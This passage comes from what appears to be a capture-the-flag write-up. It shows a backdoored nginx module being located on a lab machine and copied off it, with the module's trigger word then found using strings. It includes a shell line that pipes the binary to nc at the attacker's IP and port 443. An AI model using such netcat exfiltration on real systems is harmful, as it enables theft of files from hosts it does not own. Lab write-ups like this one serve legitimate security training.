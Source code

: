 ### Identify Argument

#### Exfil Copy

To take a look at the backdoor, I needed to find a copy. I knew from the config that it’s named `ngx_http_execute_module.so`, so I just used `find`:

```

www-data@gobox:~$ find / -name ngx_http_execute_module.so 2>/dev/null
/usr/lib/nginx/modules/ngx_http_execute_module.so
www-data@gobox:~$ ls -l /usr/lib/nginx/modules/ngx_http_execute_module.so 
-rw-r--r-- 1 root root 163896 Aug 23 20:59 /usr/lib/nginx/modules/ngx_http_execute_module.so

```

I’m able to read it as well. I’ll send it back to a listening `nc` on my host with:

```

www-data@gobox:~$ cat /usr/lib/nginx/modules/ngx_http_execute_module.so | nc 10.10.14.6 443

```

At my host:

```

oxdf@parrot$ nc -lnvp 443 > ngx_http_execute_module.so
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.113] 48084
^C

```

And the hashes match:

```

www-data@gobox:~$ md5sum /usr/lib/nginx/modules/ngx_http_execute_module.so
15f0ad443a4b4888bfbee4e5b2cf0ae6  /usr/lib/nginx/modules/ngx_http_execute_module.so

```

```

oxdf@parrot$ md5sum ngx_http_execute_module.so 
15f0ad443a4b4888bfbee4e5b2cf0ae6  ngx_http_execute_module.so

```

#### Strings

Just running strings on the binary is enough to figure out the new command word:

```

oxdf@parrot$ strings ngx_http_execute_module.so
...[snip]...
ippsec.run
...[snip]...

```
